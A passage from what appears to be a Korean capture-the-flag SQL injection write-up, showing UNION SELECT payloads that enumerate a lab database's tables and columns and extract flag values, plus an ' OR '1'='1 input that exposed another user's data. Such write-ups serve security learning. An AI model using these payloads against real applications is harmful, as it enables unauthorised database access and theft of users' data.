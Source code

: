 ### 🎯 시도 5 – 테이블명 추출
```
normaltic' UNION SELECT table_name,2,3,4 FROM information_schema.tables WHERE table_schema='sqli_1' -- 
```
✅ `flag_table`, `plusFlag_Table`, `user_info` 발견

<img src="https://github.com/user-attachments/assets/b584829e-0eae-4d9b-87b2-3c41b63566fa" width="600"/>

### 🎯 시도 6 – 각 테이블의 컬럼명 추출
✅ flag_table
```
normaltic' UNION SELECT column_name,2,3,4 FROM information_schema.columns WHERE table_name='flag_table' -- 
```
<img src="https://github.com/user-attachments/assets/e75dcf42-edc2-4c78-9b7e-909bf3c237bf" width="600"/>

✅ plusFlag_Table
```
normaltic' UNION SELECT column_name,2,3,4 FROM information_schema.columns WHERE table_name='plusFlag_Table' -- 
```
<img src="https://github.com/user-attachments/assets/f7caef9f-82c7-4396-8a7d-8d3eebaa13d0" width="600"/>
✅ user_info

```
normaltic' UNION SELECT column_name,2,3,4 FROM information_schema.columns WHERE table_name='user_info' 
--
``` 
<img src="https://github.com/user-attachments/assets/058762f9-5f6d-40a8-9062-e4ce876febed" width="600"/>

### 🎯 시도 7 – 플래그 추출 (flag_table)
```
normaltic' UNION SELECT flag,2,3,4 FROM flag_table -- 
```
✅ flag 컬럼에서 플래그 출력 성공

🎯 시도 8 – 또 다른 flag 컬럼? (plusFlag_Table)
```
normaltic' UNION SELECT idx,flag,3,4 FROM plusFlag_Table -- 
```
✅ 두 번째 플래그 후보도 발견

----

검색창에 `normaltic`을 입력한 결과, 정상적인 검색 결과 동작을 확인할 수 있었습니다. 

<img width="1175" alt="Image" src="https://github.com/user-attachments/assets/56890963-3229-4c48-a687-a9143f60d1d7" />

실수로 SQL 주석(--)을 붙이지 않고 `' OR '1'='1` 만 입력해봤더니 
`doldol`의 계정에서  Info 부분에서 `"my name is normaltic"`
출력하는 것을 확인했습니다. 

